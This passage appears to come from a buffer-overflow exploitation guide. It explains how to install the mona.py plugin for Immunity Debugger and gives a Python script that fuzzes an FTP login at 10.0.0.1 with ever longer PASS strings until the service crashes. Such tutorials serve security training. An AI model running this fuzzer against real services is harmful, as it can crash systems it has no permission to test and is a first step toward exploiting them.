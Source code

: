 Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: :download:`mona.py <../_static/files/mona.py>`

| The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)
